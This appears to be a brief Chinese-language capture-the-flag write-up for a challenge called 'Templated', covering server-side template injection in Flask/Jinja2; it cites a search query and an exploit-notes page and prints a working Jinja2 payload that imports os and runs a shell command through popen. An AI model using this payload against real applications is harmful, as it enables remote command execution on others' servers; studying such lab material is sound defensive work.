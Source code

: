 # Templated

SSTI模版注入

<img src=".\图片\Snipaste_2023-09-22_03-37-53.png" alt="Snipaste_2023-09-22_03-37-53" style="zoom:80%;" />

谷歌搜 关键词

```
flask/jinja2 exploit github
```

[Flask Jinja2 Pentesting | Exploit Notes (hdks.org)](https://exploit-notes.hdks.org/exploit/web/framework/python/flask-jinja2-pentesting/)

```
{{ request.application.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

<img src=".\图片\Snipaste_2023-09-22_03-41-02.png" alt="Snipaste_2023-09-22_03-41-02" style="zoom:80%;" />


